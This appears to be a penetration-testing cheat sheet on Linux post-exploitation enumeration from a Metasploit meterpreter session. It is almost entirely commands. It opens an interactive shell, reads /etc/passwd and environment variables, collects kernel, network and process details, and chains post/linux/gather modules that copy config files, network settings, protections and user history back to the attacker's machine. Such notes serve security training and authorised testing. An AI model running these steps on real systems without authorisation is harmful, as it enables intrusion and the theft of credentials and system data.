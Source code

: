 - Enumerate system configurations
- Enumerate environment variables
- Enumerate network configurations
- Check if we're on a VM
- Enumerate user history

```bash
msf6 > workspace -a Linux_PE
meterpreter > shell
/bin/bash -i
$ cat /etc/passwd
# get passwd file
$ groups [USER]
$ cat /etc/*issue 
$ cat /etc/*release
# get info on the running distro
$ uname -a 
# print kernel info and more
$ ip a
$ netstat -antp
# netstat might or might not be available
$ ps aux 
# get all running processes
$ env
# get all environment variables
^C
msf6 > use post/linux/gather/enum_configs
msf6 post(linux/gather/enum_configs) > set SESSION [SESSION_ID]
msf6 post(linux/gather/enum_configs) > run
# this will cat and grab all config files and save it in the attacker's PC
msf6 post(linux/gather/enum_configs) > use post/multi/gather/env
msf6 post(multi/gather/env) > set SESSION [SESSION_ID]
msf6 post(multi/gather/env) > run
# get env vars
msf6 post(multi/gather/env) > use post/linux/gather/enum_network
msf6 post(linux/gather/enum_network) > set SESSION [SESSION_ID]
msf6 post(linux/gather/enum_network) > run
# enum network configs like sshd, ftpd, iptables and more
msf6 post(linux/gather/enum_network) > use post/linux/gather/enum_protections
msf6 post(linux/gather/enum_protections) > set SESSION [SESSION_ID]
msf6 post(linux/gather/enum_protections) > run
# check protections in place, like SElinux, AppArmor, ufw, etc
msf6 post(linux/gather/enum_protections) > use post/linux/gather/enum_system
msf6 post(linux/gather/enum_system) > set SESSION [SESSION_ID]
msf6 post(linux/gather/enum_system) > run
msf6 post(linux/gather/enum_system) > use post/linux/gather/checkcontainer
msf6 post(linux/gather/checkcontainer) > set SESSION [SESSION_ID]
msf6 post(linux/gather/checkcontainer) > run
msf6 post(linux/gather/checkcontainer) > use post/linux/gather/checkvm
msf6 post(linux/gather/checkvm) > set SESSION [SESSION_ID]
msf6 post(linux/gather/checkvm) > run
msf6 post(linux/gather/checkvm) > use post/linux/gather/enum_users_history
msf6 post(linux/gather/enum_users_history) > set SESSION [SESSION_ID]
msf6 post(linux/gather/enum_users_history) > run
msf6 post(linux/gather/enum_users_history) > 
```
